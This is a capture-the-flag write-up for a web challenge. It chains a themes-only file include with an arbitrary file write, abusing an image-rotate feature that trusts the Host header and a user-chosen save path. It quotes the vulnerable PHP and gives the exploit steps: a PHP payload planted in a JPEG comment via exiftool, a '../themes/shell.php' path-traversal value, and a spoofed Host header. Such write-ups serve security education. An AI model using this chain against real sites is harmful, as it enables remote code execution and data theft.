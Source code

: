 # web02 (Point: 220)

![web2.1](images/2.1.png)


## TL;DR

**This was LFI to RCE where LFI was only possible from a specific themes directory. So our task was to somehow write our payload file into themes directory and include it.**


## Vulnerability

So there were 2 major functionality of the app:

* Upload image.
* create a post with title, content and image .


### LFI in themes folder

So we noticed our uploaded image gets uploaded at:
* /uploads/32-byt-random-hash.jpg

And, When we create a new post, server provides us with a new POST-ID with our content displayed inside a template, http://52.78.36.66:81/post.php?post_id=ruym2lDW&theme=theme1.php uses `theme1.php` template and inject our post into it. <br>
Themes are located in /themes folder:
* /themes/theme1.php
* /themes/theme2.php

So if we are able to upload our shell.jpg into themes folder, we will be able to include it as a template using above route.

### Source code leak

![web2.2](images/2.2.png)

Some of the source code was available at http://52.78.36.66:81/post.php. Code analyses displays the following :

* So when we `rotate` a image(it have to be a valid image):
    * If the file name doesnt exists locally, its fetched from URL. (Here $_SERVER['HTTP_HOST'] is Host Header which is user controlled)
        ```php
        $src_file = $post['feature_img'];
        
        if ( !file_exists( $src_file ) ) {
                $base_url = "http://" . $_SERVER['HTTP_HOST'];
                $src = $base_url. "/" . $src_file;
            } else {
                $src = $src_file;
            }
        ```

    * The image is rotated is rotated and new image is saved to new location `$post['feature_img']` which is user controlled.
        ```
        $src_file = $post['feature_img'];
        
        ...
        @$img->writeImage($src_file);
        ```

So, if we have `feature_img` = `../themes/shell.php` and we rotate the image, it will then be stored at `../themes/shell.php`, i.e in `themes` folder(Thus we have arbritrary write)

### Hint

View-Source tells the flag is at /flag.txt

## Exploit

* So first we create a valid JPG file with out shell inside it. We can put our PHP shell inside jpeg comment exif as follows:
    ```
    $ exiftool -comment="<?php echo file_get_contents('/flag.txt'); ?>" img.jpg 
    ```
    upload the image to `your` server inside of themes folder: http://YOUR_SERVER/themes/img.jpg

* Create a new post with
    ```
    Post title = whtever
    Featured image = ../themes/shell.php  // $post['feature_img'];
    Post body = whtever
    ```
    So the new Post is at `http://52.78.36.66:81/post.php?post_id=04iQ2QJ3&theme=theme1.php`

* Edit image and rotate the image in post with 0deg and chagne Host header to your server's host. So it will
    * Fetch the image with php payload from server
    * rotate is 0deg
    * save it to `$post['feature_img']` which is '../themes/shell.php'

        ![web2.4](images/2.4.png)

* Access the shell using template LFI

http://52.78.36.66:81/post.php?post_id=04iQ2QJ3&theme=shell.php

### FLag

WhiteHat{w0r6prEss_1s_!N_mY_H34r1}

![web2.5](images/2.5.png)


